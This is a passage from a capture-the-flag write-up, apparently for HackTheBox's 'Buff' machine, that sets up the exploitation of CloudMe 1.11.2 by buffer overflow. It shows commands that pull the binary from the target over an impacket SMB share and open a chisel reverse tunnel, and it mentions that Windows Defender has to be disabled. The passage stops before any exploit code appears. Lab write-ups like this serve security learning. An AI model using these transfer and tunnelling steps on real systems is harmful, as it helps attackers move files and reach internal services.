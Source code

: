 > There are various public buffer overflow exploits for cloudme 1.11.2 in the [exploit-db](https://www.exploit-db.com/) database, but for the case of this writeup I'll explain the process of how to create a basic buffer overflow exploit. 

First I'll copy the cloudme executable to my machine, I will do this through a smb share 

1. On my linux machine
```bash
$ impacket-smbserver smbFolder `pwd` -smb2support
```

2. On the target windows machine
```bash
C:\Users\shaun\Downloads>copy CloudMe_1112.exe \\10.10.14.13\smbFolder\
```

Then I import and install the executable and create a direct link to my desktop in a windows 10 virtual machine where I will use [xdbg](https://x64dbg.com/) specifically the 32 bit version x32dbg and with its respective plugin [ERC](https://github.com/Andy53/ERC.Xdbg) to debug the binary.

I also import chisel on the windows_debug machine to expose the port 8888, note that is necessary to disable windows defender in real time to make use of chisel.

1. to expose the internal port first I create a chisel server on my linux machine
```bash
$ ./chisel_1.7.3_linux_amd64 server --reverse --port 1234
```

2. on the windows_debug machine I connect the chisel client to my server

```bash
C:\Users\user\Desktop>chisel_1.7.3_windows_amd64 client 192.168.56.1:1234 R:8888:127.0.0.1:8888
```

To import the file to xdbg I'll do  the following
1. go to File > Open > CloudMe.exe

![Desktop View](/img/htb/buff/file_open.png)

2. click repeatedly on the run button until the program starts
